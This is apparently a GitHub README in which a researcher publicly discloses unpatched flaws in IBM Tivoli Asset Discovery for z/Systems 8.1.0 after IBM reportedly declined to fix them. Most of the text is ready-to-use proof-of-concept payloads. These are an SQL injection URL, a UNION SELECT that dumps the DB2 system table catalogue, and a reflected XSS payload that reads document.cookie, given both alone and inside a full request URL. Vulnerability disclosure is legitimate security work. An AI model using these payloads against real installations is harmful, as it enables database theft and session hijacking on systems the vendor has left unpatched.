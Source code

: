 # IBMZseriesHacks


I responsibly disclosed these issues to IBM on hackerOne, but unfortunately their answer indicated they are not going to fix them. 

### SQL Injection on Tivoli Asset Discovery for z/Systems version 8.1.0:
I discovered that the many pages of IBM Tivoli Asset Discovery are vulnerable to SQL injection.
<br>
POC on 'lpar_resources' page:
<br>
<br>
Detection:
```
http://example.com/asset/lpar_resources?monthfrom=&monthto=&machine=x%2527)%253B+--&repository=repo&outfmt=
```
Payload on the 'machine' parameter:
```
x')+union+select+0,creator,dbname,name,'0','0','0','0','0','0','0','0','0','0','0','0','0','0','0','2018-08-01','0'+from+sysibm.systables;+--
```

### Reflected XSS on Tivoli Asset Discovery for z/Systems version 8.1.0:
Like the SQL Injection, this occurs on many pages and many parameters in the application.
<br>
A POC on 'lpar_resources' page:
<br>
<br>
Payload:
```
%22%3Cimg+src=1+onerror=alert(document.cookie)%3E
```
In the full URL:
```
http://example.com/disc/product_library_usage?monthfrom=&monthto=&system=&vendor=&prodrel=&repository=repo&outfmt=&library=2%22%3Cimg+src=1+onerror=alert(document.cookie)%3E&library_casei=&volume=&showoption=off&exclunknown=off&outlimit=1000
```
